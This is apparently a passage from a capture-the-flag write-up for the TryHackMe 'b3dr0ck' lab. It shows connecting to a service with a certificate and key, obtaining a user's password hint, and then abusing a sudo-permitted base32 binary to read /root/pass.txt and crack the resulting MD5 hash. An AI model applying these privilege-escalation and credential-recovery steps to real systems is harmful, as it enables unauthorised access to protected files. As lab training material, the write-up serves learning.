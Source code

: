 aWs=
-----END CERTIFICATE-----

### Get Fred Password

                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_B3dr0ck]
└─$ socat stdio ssl:10.10.117.163:54321,cert=fred.crt,key=fred.id,verify=0 


 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'fredcsrpem' is authorized.
b3dr0ck> password
Password hint: YabbaDabbaD0000! (user = 'fredcsrpem')
b3dr0ck> 

fred@b3dr0ck:/tmp$ sudo /usr/bin/base32 /root/pass.txt > root32.txt
fred@b3dr0ck:/tmp$ /usr/bin/base32 -d root32.txt
LFKEC52ZKRCXSWKXIZVU43KJGNMXURJSLFWVS52OPJAXUTLNJJVU2RCWNBGXURTLJZKFSSYK
>> base32
a00a12aad6b7c16bf07032bd05a31d56
>> crackstation
>>
>> Hash	Type	Result
a00a12aad6b7c16bf07032bd05a31d56	md5	flintstonesvitamins


## flintstonesvitamins

</code>

